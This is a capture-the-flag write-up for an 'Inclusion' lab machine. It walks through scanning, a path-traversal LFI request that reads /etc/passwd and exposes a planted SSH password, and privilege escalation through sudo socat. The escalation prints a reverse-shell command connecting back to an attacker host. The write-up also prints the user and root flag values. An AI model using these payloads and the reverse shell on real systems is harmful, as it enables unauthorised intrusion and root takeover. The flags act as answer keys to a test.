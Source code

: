 # Inclusion

> Mihai Stanciu | 31 January 2021

```
export ip=10.10.37.10
```

## Nmap scan in `nmap/initial`

* Open ports - `22 & 80`

## Gobuster scan in `gobuster/initial`

* Nothing to be found

## Performed LFI(Local File Inclusion) with this route `http://10.10.37.10/article?name=../../../../../../../../etc/passwd`

* Response

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash

#falconfeast:rootpassword

sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```

**Note**: Found _ssh credentials_ - `falconfeast:rootpassword`

## Got in through ssh

1. Found first flag in `/home/falconfeast/user.txt`

```
60989655118397345799
```

2. Found `socat` running as _root with no passwd_

* Searched [GTFOBins](https://gtfobins.github.io/gtfobins/socat/)

* Ran command `socat file:`tty`,raw,echo=0 tcp-listen:12345` to listen on _attacker_ machine

* On victim ran command `sudo socat tcp-connect:$atacker-ip:12345 exec:/bin/sh,pty,stderr,setsid,sigint,sane`

**Spawned root shell on attacker machine**.

**Found root flag in `/root/root.txt`**

```
42964104845495153909
```
